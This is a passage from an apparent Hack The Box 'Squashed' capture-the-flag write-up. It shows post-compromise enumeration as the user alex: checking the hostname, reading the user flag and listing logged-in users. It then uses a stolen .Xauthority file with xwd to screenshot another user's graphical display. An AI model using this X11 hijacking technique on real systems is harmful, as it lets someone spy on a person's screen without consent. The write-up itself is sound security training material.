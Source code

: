 There's an Ethernet interface and the loopback interface.

### Hostname

What is Squashed's hostname?

```sh
alex@squashed:~$ hostname
```

```
squashed.htb
```

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
alex@squashed:~$ cat "/home/alex/user.txt"
```

```
cf3944645a2b30e9f4691d1831fa6659
```

### Displays

Before continuing our enumeration of the box and falling in rabbit holes, let's
check if we can access `ross`'s display using the `.Xauthority` file we
discovered [earlier](#inspecting-home-ross-xauthority).

First, we need to find the list of connected displays.

```sh
alex@squashed:~$ w
```

```
<SNIP>
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               20:34   34:57   3.95s  0.10s /usr/libexec/gnome-session-binary --systemd --session=gnome
alex     pts/0    10.10.14.10      21:07    0.00s  0.01s  0.00s w
```

As we suspected, the `ross` user is connected and uses the display `:0`, so we
should be able to see what he sees!

To do so, we need the `.Xauthority` file we got previously, so I'll transfer it
to Squashed. Then, we can use it to take a screenshot of `ross`'s display:

```sh
alex@squashed:~$ XAUTHORITY="/tmp/.Xauthority" xwd -root -screen -silent -d ":0" -out "/tmp/screenshot.xwd"
```
